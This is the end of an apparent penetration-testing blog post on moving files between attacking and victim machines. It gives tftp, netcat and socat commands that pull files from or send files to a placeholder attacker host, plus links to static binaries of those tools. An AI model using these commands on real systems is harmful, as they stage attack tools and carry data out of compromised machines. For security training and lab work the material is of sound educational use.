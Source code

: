 Then, you can use it in you terminal window:

```
tftp -i <attacker> GET <filename>
tftp -i <attacker> PUT <filename>
```


## Other Tools


If anyhow you get these tools to the target machine, you can use them. You can find links to the static binaries for each tool there.


### Netcat


[Netcat for windows 32/64 bit](https://github.com/int0x33/nc.exe/)

Listen for connection and output to file (receiver).

```bash
nc -nlvp <port> > <dest-path>
```

Connect to receiver and upload the file (sender).

```bash
nc -nv <attacker/victim> <port> < <source-path>
```


### Socat


[Socat static binaries](https://github.com/3ndG4me/socat/releases)

Listen for connection and output to file (receiver).

```bash
socat TCP4-LISTEN:<port>,fork file:<dest-path>
```

Connect to the receiver and upload the file (sender).

```bash
socat TCP4:<attacker/victim>:<port> file:<source-path>,create
```


## Conclusion


In this post we explored the ways to transfer files between attacking and victim machines. These examples are not the complete list of possible File Transfers methods and I hope to update this post later. Feel free to share more information about the topic in the comments :).

Thank you for reading, I hope it was useful for you ❤️
